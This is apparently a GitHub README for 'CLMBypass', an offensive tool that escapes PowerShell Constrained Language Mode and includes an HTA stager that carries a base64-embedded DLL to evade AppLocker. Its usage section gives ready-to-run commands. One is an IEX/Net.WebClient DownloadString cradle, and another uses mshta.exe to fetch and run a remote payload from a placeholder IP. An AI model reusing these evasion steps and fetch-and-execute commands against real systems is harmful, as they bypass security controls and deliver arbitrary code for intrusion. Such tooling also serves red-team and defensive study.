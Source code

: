# CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

### contents
- payload.ps1
  - payload to be run in FullLanguage mode
- stager.hta
  - CLMBypass.dll is stored as base64
  - When a client accesses it, the DLL will be loaded dynamically
  - The powershell command to download the final payload is executed in the CLMBypass Runspace with FullLanguage mode
  - `payload.ps1` is downloaded and executed in FullLanguage mode
- Program.cs
  - C# source code
- CLMBypass.exe
  - Compiled as PE32 .NET Framework 4.0

## usage
#### CLMBypass by itself (CLM, but no AppLocker)
```
C:\Users\CLMUser\Downloads>.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"
```

#### CLMBypass with stager (AppLocker and CLM)
```
C:\Users\CLMUser\Downloads>mshta.exe http://<ip>/payload.ps1
```
**NOTE:** This will cause a window with the rendered `stager.hta` to pop up, which can be closed without hindering the process.
